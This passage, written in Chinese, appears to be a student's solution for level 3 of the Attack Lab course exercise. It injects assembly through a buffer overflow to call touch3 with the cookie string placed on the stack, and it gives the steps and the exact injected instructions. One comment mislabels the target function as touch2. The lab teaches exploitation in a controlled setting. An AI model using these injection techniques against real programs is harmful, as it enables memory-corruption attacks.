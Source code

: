 ![touch3](image/2021-07-13-16-39-02.png)
![hexmatch](image/2021-07-13-16-38-50.png)

###### 3.232 任务解答

因为我们需要传递的是将cookie的字符串形式，所以`touch3`的参数是一个字符指针。
所以我们不仅要想出cookie的字符串形式，还需要将该字符串储存到某地址中，但由于`hexmatch`函数的缓冲区可能会覆盖我们的字节，所以我们就不能将该串储存在`hexmatch`函数的缓冲区中。不过可以储存在其他的栈内存中。
其他的行为和第二关一样。

所以解题步骤几乎和第二关一样，为：
1. 确定`touch3`的函数地址、cookie的字符串形式、所要储存cookie串的栈地址以及保存这些指令的开始栈地址。
2. 确定攻击代码中包含的指令，并编写相应的汇编代码。
3. 将编写好的汇编代码汇编成目标程序，再对该目标程序进行反汇编，从而可以得到这些汇编代码的16进制字节序列表示。
4. 编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
5. 将该字符串输入到程序中，进行攻击。

根据之前的分析，所需的指令应该有以下这些：
```bash
# 该内容存放在ass3.s文件中
pushq $0x4018fa  #put the addr of touch2 into the stacks
movq $0x6166373939623935,%rax  #store the string representation of cookies in %rax as the temporary store.
movq %rax,0x5561dc29  #pass the string to the addr which is far than the addr of function hexmatch's stacks.
movb $0,0x5561dc31  #add the null char in the end of this string.
movq $0x5561dc29,%rdi #set the addr of cookies string as the first argument of touch3
retq  #return to the touch3
```
